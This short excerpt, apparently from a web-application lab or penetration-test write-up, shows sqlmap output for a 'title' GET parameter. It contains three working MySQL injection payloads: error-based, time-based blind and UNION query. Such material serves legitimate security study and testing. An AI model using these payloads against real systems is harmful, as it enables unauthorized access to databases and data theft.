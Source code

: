 ![sqlmap](1-webapp-httpassets/image-20230504192432292.png)

```bash
---
Parameter: title (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=hacking' AND (SELECT 1664 FROM (SELECT(SLEEP(5)))MSwT) AND 'jFDG'='jFDG&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=hacking' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716a767171,0x7379784e74504d4e76744b6e4c524b4e516a4f4f7878676a51734e6d4c744d547450424844474f76,0x7171707071),NULL,NULL-- -&action=search
---
```
